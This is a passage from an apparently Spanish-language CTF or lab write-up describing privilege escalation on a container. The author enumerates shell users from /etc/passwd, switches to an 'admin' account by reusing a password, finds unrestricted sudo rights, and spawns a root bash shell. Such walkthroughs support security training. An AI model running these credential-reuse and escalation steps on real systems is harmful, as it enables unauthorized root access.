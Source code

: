 ```shell

mwheeler@cff4212a3b71:~$ 
```
## Escalada 
Tenemos 3 posibles usuarios
```shell
mwheeler@cff4212a3b71:~$ cat /etc/passwd | grep -E "bash|sh"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
mwheeler:x:1001:1001::/home/mwheeler:/bin/bash
admin:x:1002:1002::/home/admin:/bin/sh
```

Podemos podríamos probar a ver si hay reutilización de credenciales 
```shell
mwheeler@cff4212a3b71:/tmp$ su admin
Password: #banana
$ 
```

Funcionó.
```shell
[sudo] password for admin: 
Matching Defaults entries for admin on cff4212a3b71:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User admin may run the following commands on cff4212a3b71:
    (ALL) ALL
```

El usuario _admin_ puede ejecutar TODO como cualquier usuario por lo que sencillamente nos ejecutamos una bash como root usando `sudo` 
```shell
admin@cff4212a3b71:/$ sudo /bin/bash -p
root@cff4212a3b71:/# id
uid=0(root) gid=0(root) groups=0(root)
root@cff4212a3b71:/# 
```
